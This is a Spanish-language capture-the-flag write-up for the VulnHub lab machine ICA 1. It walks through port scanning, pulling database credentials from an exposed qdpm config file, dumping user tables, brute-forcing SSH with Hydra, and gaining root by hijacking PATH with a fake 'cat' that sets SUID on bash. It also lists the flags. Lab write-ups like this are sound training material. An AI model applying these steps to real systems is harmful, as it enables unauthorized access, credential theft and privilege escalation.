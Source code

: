 ```yaml
---
layout: single
title: ICA 1 - VulnHub
excerpt: " According to information from our intelligence network, ICA is working on a secret project. We need to find out what the project is. Once you have the access information, send them to us. We will place a backdoor to access the system later. You just focus on what the project is. You will probably have to go through several layers of security. The Agency has full confidence that you will successfully complete this mission. Good Luck, Agent! "
date: 2022-11-15
classes: wide
header:
  teaser: /blog/assets/images/vh-writeup-ica1/ica1.jpg
  teaser_home_page: true
  icon: /blog/assets/images/vulnhub.webp
categories:
  - vulnhub
tags:  
  - hydra
  - qdpm
  - ssh
  - mysql
  - hijacking
---
```


According to information from our intelligence network, ICA is working on a secret project. We need to find out what the project is. Once you have the access information, send them to us. We will place a backdoor to access the system later. You just focus on what the project is. You will probably have to go through several layers of security. The Agency has full confidence that you will successfully complete this mission. Good Luck, Agent!

# Summary
- IP: 192.168.0.112
- Ports: 22,80,3306,33060
- OS: Linux (Debian )
- Services & Applications:
	-  22 -> OpenSSH 8.4p1 Debian 5
	-  80 -> Apache httpd 2.4.48
	-  3306-> MySQL 8.0.26
	-  33060 -> mysqlx?

# Recon

- Configuración de interfaz de red para que Vmware detecte la máquina en la misma red bridge:
 
 ```
 tecla E
 rw init=/bin/bash
 etc/network
 interfaces ---> corregir nombre de interfaz
 reiniciar
 ```

- Escaneo básico de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.129.26 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```bash
$sudo nmap -p21,80,3306,33060 -sCV 10.10.129.26 -oN targeted
```

- Escaneo básico de página web:

```bash
$nmap --script http-enum -p80 192.168.0.112 -oN webScan
```

- Buscamos exploits para qdpm 9.2:

```bash
$searchsploit qdpm 9.2
```

- Analizamos el explot "Password Exposure":

```bash
searchsploit qdpm 9.2 -x php/webapps/50176.txt

The password and connection string for the database are stored in a yml file. To access the yml file you can go to
http://<website>/core/config/databases.yml file and download.
```


- Encontramos credenciales para entrar a una base de datos:

```bash
$mysql -h 192.168.0.112 -u qdpmadmin -p
```

-  Analizamos las tablas:

```bash
show databases;
use staff;
show tables;
select * from user;
select * from login;
```

- Obtenemos usuarios potenciales y contraseñas al parecer encriptadas en base 64, guardamos los usuarios y probamos cada contraseña desencriptada para realizar ataque por fuerza bruta a SSH con hydra:

- Para desencriptar base 64;

```bash
$echo "REpjZVZ5OThXMjhZN3dMZw=" | base64 -d; echo
```

- Podemos hacer un diccionario con cada usuario y contraseña para realizar el ataque de fuerza bruta:

```bash
$hydra -L /home/dante/Vulnhub/ICA1/content/usuarios.txt -p DJceVy98W28Y7wLg ssh://192.168.0.112
```

- Encontramos credenciales SSH para dos usuarios: dexter y travis, como el usuario dexter no encontramos nada interesante; con el usuario travis encontramos la flag de usuario:

#  USER FLAG: ICA{Secret_Project}

# ESCALANDO PRIVILEGIOS:

- Hacemos sudo -l pero no encontramos nada, buscamos binarios con permisos SUID y encontramos uno curioso "/opt/get_access":

```bash
find / -perm -4000 2>/dev/null
```

- lo analizamos:

```bash
file /opt/get_access
strings /opt/get_access
```

- Nos damos cuenta que en una parte del binario ejecuta el comando cat, el cual usaremos para que ejecute un cat modificado por nosotros que crearemos en el duirectorio temp, el cual otorgará permisos SUID a la bash:
 ```bash
 touch cat
 chmod +x cat
 nano cat
 chmod u+s /bin/bash
 ```

- Modificamos el PATH para que ejecute nuestro cat y no el nativo del sistema:

```bash
echo $PATH
export PATH=/tmp:$PATH
```

- Ejecutamos el binario y la bash ahora tendrá permisos de SUID, lo que podemos comprobar y ejecutar:

```bash
ls -l /bin/bash
bash -p
```

# ROOT FLAG: ICA{Next_Generation_Self_Renewable_Genetics}
